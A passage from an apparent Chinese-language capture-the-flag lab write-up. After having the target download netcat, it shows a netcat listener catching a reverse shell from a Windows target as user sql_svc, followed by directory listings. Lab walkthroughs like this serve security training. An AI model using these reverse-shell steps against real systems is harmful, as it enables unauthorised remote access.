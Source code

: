> 0.0.0.0是一个非常特殊的IP地址，这个IP相当于[java](https://baike.baidu.com/item/java/85979?fromModule=lemma_inlink)中的this，代表当前设备的IP。

靶机下载kali里的nc文件，注意下载的文件夹，其他的文件夹会因为没有权限下载不进去

![image-20221128212527930](assets/image-20221128212527930.png)

```powershell
┌──(root㉿kali)-[~]
└─# nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.16.87] from (UNKNOWN) [10.129.181.116] 49679
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\sql_svc\Downloads>dir 
dir 
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users\sql_svc\Downloads

11/28/2022  06:19 AM    <DIR>          .
11/28/2022  06:19 AM    <DIR>          ..
11/28/2022  06:21 AM            45,272 nc64.exe
               1 File(s)         45,272 bytes
               2 Dir(s)  10,709,676,032 bytes free

C:\Users\sql_svc\Downloads>cd ..
cd ..

C:\Users\sql_svc>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users\sql_svc

01/20/2020  05:01 AM    <DIR>          .
01/20/2020  05:01 AM    <DIR>          ..
01/20/2020  05:01 AM    <DIR>          3D Objects
01/20/2020  05:01 AM    <DIR>          Contacts
```